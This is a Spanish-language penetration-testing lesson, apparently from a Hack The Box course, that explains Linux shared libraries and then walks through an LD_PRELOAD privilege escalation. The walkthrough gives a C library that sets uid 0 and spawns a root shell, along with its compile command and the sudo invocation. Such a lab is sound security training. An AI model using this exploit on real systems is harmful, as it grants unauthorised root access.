 # Bibliotecas compartidas

---

Es común que los programas de Linux usen bibliotecas de objetos compartidos vinculados dinámicamente. Las bibliotecas contienen código compilado u otros datos que los desarrolladores usan para evitar tener que reescribir las mismas piezas de código en múltiples programas. Existen dos tipos de bibliotecas en Linux:`static libraries`(denotado por la extensión del archivo .a) y`dynamically linked shared object libraries`(denotado por la extensión del archivo .so). Cuando se compila un programa, las bibliotecas estáticas se convierten en parte del programa y no se pueden alterar. Sin embargo, las bibliotecas dinámicas se pueden modificar para controlar la ejecución del programa que las llama.

Existen múltiples métodos para especificar la ubicación de las bibliotecas dinámicas, por lo que el sistema sabrá dónde buscarlos en la ejecución del programa. Esto incluye el`-rpath`o`-rpath-link`banderas al compilar un programa, utilizando las variables ambientales`LD_RUN_PATH`o`LD_LIBRARY_PATH`, colocando bibliotecas en el`/lib`o`/usr/lib`directorios predeterminados, o especificar otro directorio que contiene las bibliotecas dentro del`/etc/ld.so.conf`archivo de configuración.

Además, el`LD_PRELOAD`La variable de entorno puede cargar una biblioteca antes de ejecutar un binario. Las funciones de esta biblioteca tienen preferencia sobre las predeterminadas. Los objetos compartidos requeridos por un binario se pueden ver utilizando el`ldd`utilidad.

  Bibliotecas compartidas

```shell-session
htb_student@NIX02:~$ ldd /bin/ls

	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)
```

La imagen de arriba enumera todas las bibliotecas requeridas por`/bin/ls`, junto con sus caminos absolutos.

---

## Ld_preload privilegio escalada

Veamos un ejemplo de cómo podemos utilizar el[Ld_preload](https://web.archive.org/web/20231214050750/https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html)entorno variable para aumentar los privilegios. Para esto, necesitamos un usuario con`sudo`privilegios.

  Bibliotecas compartidas

```shell-session
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```

Este usuario tiene derechos para reiniciar el servicio Apache como root, pero dado que esto es`NOT`a[Gtfobina](https://gtfobins.github.io/#apache)y el`/etc/sudoers`La entrada está escrita especificando la ruta absoluta, esto no podría usarse para aumentar los privilegios en circunstancias normales. Sin embargo, podemos explotar el`LD_PRELOAD`Problema para ejecutar un archivo de biblioteca compartida personalizada. Vamos a compilar la siguiente biblioteca:

Código:do

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Podemos compilar esto de la siguiente manera:

  Bibliotecas compartidas

```shell-session
htb_student@NIX02:~$ gcc -fPIC -shared -o root.so root.c -nostartfiles
```

Finalmente, podemos aumentar los privilegios utilizando el siguiente comando. Asegúrese de especificar la ruta completa a su archivo de biblioteca maliciosa.

  Bibliotecas compartidas

```shell-session
htb_student@NIX02:~$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

id
uid=0(root) gid=0(root) groups=0(root)
```